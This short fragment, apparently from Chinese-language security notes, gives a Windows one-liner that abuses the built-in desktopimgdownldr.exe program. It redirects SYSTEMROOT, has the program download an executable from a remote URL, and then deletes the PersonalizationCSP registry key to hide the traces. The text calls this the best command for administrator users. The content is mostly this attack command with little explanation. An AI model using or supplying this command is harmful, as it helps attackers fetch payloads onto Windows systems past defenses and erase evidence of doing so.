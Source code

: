 ![2022-11-18_82117.png](/2022-11-18_82117.png)

管理员用户会多写一个注册表项，所以管理员最好的命令是：

```
set "SYSTEMROOT=C:\ProgramData\" && cmd /c desktopimgdownldr.exe /lockscreenurl:https://url/file.exe /eventName:desktopimgdownldr && reg delete HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\PersonalizationCSP /f
```